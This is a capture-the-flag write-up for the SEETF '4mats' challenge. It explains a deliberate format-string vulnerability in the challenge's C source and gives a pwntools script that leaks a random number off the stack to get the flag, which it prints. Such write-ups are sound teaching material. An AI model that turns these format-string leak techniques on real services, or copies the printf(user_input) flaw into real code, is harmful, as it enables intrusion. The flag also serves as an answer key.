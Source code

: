 # 4mats

![Challenge](./Images/4mats_chall.PNG)

[Files](./Files/pwn_4mats.zip)

We are presented with a binary and its source c file for a program running on a server. Running the binary we are greeted with this:

```
Welcome to SEETF!
Please enter your name to register:
```

After entering a name, the program responds with:

```
Welcome: theF0X

Let's get to know each other!
1. Do you know me?
2. Do I know you?
```

After entering '1', the program responds with:

```
Guess my favourite number!
1
Not even close!
```

After entering '2', the program responds with:

```
Whats your favourite format of CTFs?
crypto
Same! I love
crypto
too!
```

Upon entering a valid input, the program will return back to the menu.

Reading over the source, the goal seems to be to 'guess' a random number chosen by the program. If we are correct, there is a system call to print the flag file.

```c
void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
    system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }

}
```

Reading further we can see several labels, as well as a switch case for different user options. Looking more closely, we can see the vulnerability we need to exploit. A user-provided string is printed to the screen using `printf` with only one argument.

```c
case 2:
mat5:
        printf("Whats your favourite format of CTFs?\n");
        read(0, format, 64);
        printf("Same! I love \n");
        printf(format);
        printf("too!\n");
        break;
```

For those that don't know `printf` is used to print a format string. Format strings often require variables to be passed along with the string to `printf`. For example `ID: %d` requires an integer argument. If a format string requires an argument but none is passed, then `printf` simply begins reading values off the stack, where it thinks the argument should be.

The outline of an exploit begins to form:

1. Generate a random number.
1. Leak values from the stack until we find the number.
1. Call guess_me and provide the leaked number.
1. Profit???

The only issue is calling guess_me without setting a new random number. Simply calling option 1 in the menu will trigger a new random number, making our leaked one worthless.

```c
 case 1:
        srand(time(NULL));
        int fav_num = rand() % 1000000;
        set += 1;
mat4:
        guess_me(fav_num);
        break;
```

Luckily there is a label (mat4) between the random number generator and the call to guess_me. In order to jump to that label we simple trigger the default switch case behavior and ensure that the variable 'set' is equal to 4.

```c
default:
    printf("I print instructions 4 what\n");
    if (set == 1)
mat6:
        goto mat1;
    else if (set == 2)
        goto mat2;
    else if (set == 3)
mat7:
        goto mat3;
    else if (set == 4)
        goto mat4;
    else if (set == 5)
        goto mat5;
    else if (set == 6)
        goto mat6;
    else if (set == 7)
        goto mat7;
    break;
```

We can trigger the default switch-case behavior by providing a number other than 1 or 2. And we can ensure 'set' is equal to 4 by calling case 1 four times(each time case one is triggered 'set' is incremented).

So the final exploit plan is as follows:

1. Trigger option 1 four times.
1. Trigger option 2, and provide a format string that requires parameters
1. Trigger default by sending number 3, provide leaked value to guess_me

#### Code

```python
from pwn import *

#p = process("./distrib/vuln")
p = remote("fun.chall.seetf.sg", 50001)

p.sendlineafter(b"Please enter your name to register:",b"theF0X")

for i in range(4):
    p.sendlineafter(b"2. Do I know you?\n",b"1")
    p.sendlineafter(b"Guess my favourite number!",b"0")

p.sendlineafter(b"2. Do I know you?\n",b"2")
payload = b"%d " * 8 + b"\n"
p.sendlineafter(b"Whats your favourite format of CTFs?\n", payload) #format string
p.recvline()#"Same! I love \n"
data = p.recvline()
arr = data.decode().split(" ")
num = int(arr[6]) #leaked value

p.sendlineafter(b"2. Do I know you?\n",b"3")
p.sendlineafter(b"Guess my favourite number!",str(num).encode())
print(p.recvall())
p.close()
```

Note: I grabbed index 6 from the list of leaked values, it stood out to me because it was the smallest value. In reality, there was not much logic involved in picking the index.

**OUTPUT**

```
#b'\nYes! You know me so well!\nSEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}\n'
```
